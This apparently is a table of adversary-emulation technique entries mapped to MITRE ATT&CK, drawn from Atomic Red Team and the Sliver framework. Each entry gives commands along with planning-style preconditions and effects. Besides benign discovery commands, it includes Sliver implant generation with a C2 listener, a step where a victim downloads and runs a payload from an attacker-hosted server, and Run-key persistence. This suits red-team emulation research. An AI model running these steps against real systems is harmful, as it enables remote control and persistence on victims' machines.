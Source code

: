 | 2d5a61f5-0447-4be4-944a-1f8530ed6574 | Remote System Discovery - arp | \['T1018'\] | ART | \['windows'\] | \['Discovery'\] | \['Remote System Discovery'\] | Identify remote systems via arp. <br><br>Upon successful execution, cmd.exe will execute arp to list out the arp cache. Output will be via stdout.<br> | {'executor': 'Command Prompt Executor', 'command': 'arp -a\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(os_windows ?target - host)'\] | \['(arp_cache_info_known ?target - host)'\] |
| 1f454dd6-e134-44df-bebb-67de70fb6cd8 | Basic Permission Groups Discovery Windows (Local) | \['T1069.001'\] | ART | \['windows'\] | \['Discovery'\] | \['Permission Groups Discovery: Local Groups'\] | Basic Permission Groups Discovery for Windows. This test will display some errors if run on a computer not connected to a domain. Upon execution, domain<br>information will be displayed.<br> | {'executor': 'Command Prompt Executor', 'command': 'net localgroup\nnet localgroup "Administrators"\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(os_windows ?target - host)'\] | \['(local_permission_groups_info_known ?target - host)'\] |
| 7bfba376-cebc-4094-b1e6-5103b2e83c4e | Execute PowerShell Command | \['T1059.001'\] | Sliver | \['windows'\] | \['Execution'\] | \['Command and Scripting Interpreter: PowerShell\n'\] | The `powershell.exe` command executes a PowerShell script or command on the remote host. This command is useful for performing system monitoring tasks or gathering information about the processes running on a remote machine. | {'executor': 'Sliver Executor', 'command': 'powershell(#{SessionID},#{Commands})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \['(os_windows ?t - host)', '(sliver_session ?s1 - executor ?t - host)'\] | \['(powershell ?s2 - executor ?t - host)', {'operator': 'When', 'params': {'condition': '(elevated_executor ?s1 - executor)', 'effect': '(elevated_executor ?s2 - executor)'}}\] |
| 3b3809b6-a54b-4f5b-8aff-cb51f2e97b34 | Process Discovery - Get-Process | \['T1057'\] | ART | \['windows'\] | \['Discovery'\] | \['Process Discovery'\] | Utilize Get-Process PowerShell cmdlet to identify processes.<br><br>Upon successful execution, powershell.exe will execute Get-Process to list processes. Output will be via stdout. <br> | {'executor': 'Powershell Executor', 'command': 'Get-Process\n'} | None | \['(powershell ?executor - executor ?target - host)', '(os_windows ?target - host)'\] | \['(process_info_known ?target - host)'\] |
| 0e67b73a-9927-43e1-8f64-04d38f1db57d | Build the executable file of a Sliver implant (for Windows) | \['T1071.001'\] | Manual | \['windows'\] | \['Command and Control'\] | \['Application Layer Protocol - Web Protocols'\] | The command is used in the Sliver C2 (Command and Control) framework to generate a payload designed for remote access to a target machine.<br> | {'executor': 'Sliver Console', 'command': 'sliver > generate --mtls #{LHOST}:#{LPORT} --os windows --arch 64bit --format exe --save #{SAVE_PATH}\nsliver > mtls --lport #{LPORT}\n'} | {'LHOST': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'LPORT': {'default': None, 'description': 'listening port of the attacter machine', 'type': None}, 'SAVE_PATH': {'default': None, 'description': 'Saved path of the generated payload', 'type': None}} | \['(os_windows ?target - host)', '(unallocated ?p - payload)', '(unallocated ?file - file)'\] | \['(sliver_implant_payload ?p - payload ?target - host)', '(file_payload ?p - payload ?file - file)', '(file_prepared_local ?file - file)', '(exe_file ?file - file)', '~(unallocated ?p - payload)', '~(unallocated ?file - file)'\] |
| 4a31f8db-89db-4f16-baab-47bb3f9d5b8a | Simulate the victim download and execute malicious payload file | \['T1204.002'\] | Manual | \['windows', 'linux'\] | \['Execution'\] | \['User Execution: Malicious File'\] | None | {'executor': 'Human', 'command': "(This step needs human interaction and (temporarily) cannot be executed automatically)\n(On attacker's machine)\npython -m http.server\n\n(On victim's machine)\n1. Open #{LHOST}:#{LPORT} in the browser\n2. Navigate to the path of the target payload file\n3. Download the payload file\n4. Execute the payload file to #{PATH} (If on a Linux machine, you also need to chmod the file)\n"} | {'LHOST': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'LPORT': {'default': None, 'description': 'listening port of the attacter machine', 'type': None}, 'SAVE_PATH': {'default': None, 'description': 'Saved path of the downloaded payload', 'type': None}} | \['(file_prepared_local ?file - file)', {'operator': 'or', 'operands': \['(exe_file ?file - file)', '(elf_file ?file - file)'\]}\] | \['(file_exists ?path - path ?file - file ?t - host)', '(file_executed ?file - file ?t - host)'\] |
| e55be3fd-3521-4610-9d1a-e210e42dcf05 | Reg Key Run | \['T1547.001'\] | ART | \['windows'\] | \['Persistence', 'Privilege Escalation'\] | \['Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder'\] | Run Key Persistence<br><br>Upon successful execution, cmd.exe will modify the registry by adding \"Atomic Red Team\" to the Run key. Output will be via stdout. <br> | {'executor': 'Command Prompt Executor', 'command': 'REG ADD "HKCU\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run" /V "Atomic Red Team" /t REG_SZ /F /D "#{command_to_execute}"\n'} | {'command_to_execute': {'description': 'Thing to Run', 'type': 'path', 'default': 'C:\\Path\\AtomicRedTeam.exe'}} | \['(os_windows ?target - host)', '(command_prompt ?executor - executor ?target - host)', '(file_exists ?command_to_execute - path ?file - file ?target - host)', '(exe_file ?file - file)'\] | \['(file_execution_at_startup ?file - file ?target - host)'\] |